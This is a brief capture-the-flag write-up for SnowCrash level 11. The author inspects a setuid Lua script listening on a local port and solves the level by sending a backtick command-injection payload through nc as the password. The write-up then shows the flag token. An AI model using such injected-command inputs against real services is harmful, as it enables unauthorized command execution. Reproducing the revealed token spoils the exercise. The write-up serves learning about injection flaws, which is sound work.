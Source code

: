Level 10 was the hardest so far, let's see what the 11 has to offer us.
Let's keep going with our usual list of files
```
ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

We have a script in .lua, let's try to execute it:
```
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```

The script is readable, let's take a look at it and check if we can find usefull informations:
```
local server = assert(socket.bind("127.0.0.1", 5151)). -> port 5151
```
We also find a hash
```
if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
```

Let's try to use the script:
```
nc 127.0.0.1 5151
Password: test
Erf nope..
```

As we've previously done let's try to execute a command in the script instead of a password:

```
nc 127.0.0.1 5151
Password: `getflag` > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
